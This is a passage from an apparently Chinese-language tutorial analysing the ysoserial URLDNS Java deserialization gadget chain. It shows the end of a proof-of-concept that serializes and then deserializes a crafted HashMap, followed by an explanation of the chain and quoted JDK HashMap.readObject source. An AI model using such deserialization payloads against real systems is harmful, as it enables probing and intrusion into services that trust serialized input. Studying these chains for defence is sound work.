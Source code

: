 ```java
        setFieldValue(u, "hashCode", -1);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(ht);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```



#### 利用链分析

看到 URLDNS 类的 `getObject` 方法，`ysoserial` 会调用这个方法获得Payload。这个方法返回的是⼀个对象，这个对象就是最后将被序列化的对象，在这⾥是 `HashMap` 。

触发反序列化的方法是 `readObject` ，因为Java开发者（包括Java内置库的开发者）经常会在这里面写自己的逻辑，所以导致可以构造利用链。

`HashMap` 类的 `readObject` 方法：

```java
    /**
     * Reconstitutes this map from a stream (that is, deserializes it).
     * @param s the stream
     * @throws ClassNotFoundException if the class of a serialized object
     *         could not be found
     * @throws IOException if an I/O error occurs
     */
    private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        reinitialize();

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

```